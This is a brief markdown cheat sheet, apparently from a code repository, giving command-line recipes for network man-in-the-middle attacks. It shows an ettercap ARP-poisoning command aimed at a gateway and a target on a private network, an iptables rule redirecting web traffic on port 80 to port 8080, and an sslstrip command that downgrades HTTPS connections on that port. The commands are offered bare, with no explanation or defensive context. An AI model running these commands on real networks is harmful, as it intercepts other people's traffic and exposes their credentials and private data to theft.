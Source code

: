 # General MITM

## ettercap
`/gateway/ /target/`
`ettercap -Ti eth0 -M arp:remote /192.168.20.1/ /192.168.20.11/`

# SSL Stripping
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`

`sslstrip -l 8080`

